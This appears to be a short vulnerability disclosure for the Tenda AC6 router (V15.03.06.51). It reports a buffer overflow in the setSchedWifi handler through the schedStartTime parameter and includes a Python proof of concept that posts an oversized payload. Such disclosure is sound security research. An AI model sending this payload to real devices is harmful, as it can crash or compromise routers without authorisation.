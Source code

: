 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/setSchedWifi via parameter schedStartTime

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10/4.png)

get value from schedStartTime ,and set enable = schedWifiEnable = 0

![](../Tenda_AC10/3.png)

as follow we set, get into line 73, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setSchedWifi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'schedStartTime': payload, 'schedWifiEnable': 0})
``` 
